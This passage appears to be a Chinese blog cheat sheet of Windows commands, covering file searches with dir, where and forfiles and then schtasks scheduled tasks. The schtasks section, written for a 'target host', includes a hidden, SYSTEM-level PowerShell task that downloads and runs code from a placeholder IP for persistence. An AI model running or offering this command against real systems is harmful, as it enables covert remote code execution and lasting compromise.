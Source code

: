 
```
dir /s /b c:\abcd.txt
```




![](https://img-blog.csdnimg.cn/20210708155907471.png)



查找C盘下名为abcd.txt的文件 



```
where /R c:\ abcd.txt
```




![](https://img-blog.csdnimg.cn/20210708161128440.png)



列出指定目录c:\\Program Files\\Go\\pkg 下的文件内容(依次迭代遍历) 



```
forfiles /P "c:\Program Files\Go\pkg" /S /M * /C "cmd /c echo @path"
```




![](https://img-blog.csdnimg.cn/20210708160202418.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



查找指定目录下c:\\Program Files的指定abcd.txt文件



```
forfiles /P "c:\Program Files" /S /M abcd.txt /C "cmd /c echo @path"
```




![](https://img-blog.csdnimg.cn/20210708161219992.png)



Windows中的计划任务(schtasks)

-----------------------



schtasks是windows下计划任务的命令，可以设置在指定时间执行指定程序或脚本。



```
在目标主机上创建一个名为test的计划任务，启动程序为C:\vps.exe，启动权限为system,启动时间为每小时      
schtasks /create /tn test /sc HOURLY /mo 1 /tr c:\vps.exe /ru system /f       
schtasks /create /tn test /sc onstart/onlogon/HOURLY /mo 1 /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://xx.xx.xx.xx'''))'" /ru system /f       
查询该test计划任务      
schtasks /query | findstr test       
启动该test计划任务      1
schtasks /run /i /tn "test"       1
删除该test计划任务      1
schtasks /delete /tn "test" /f
```
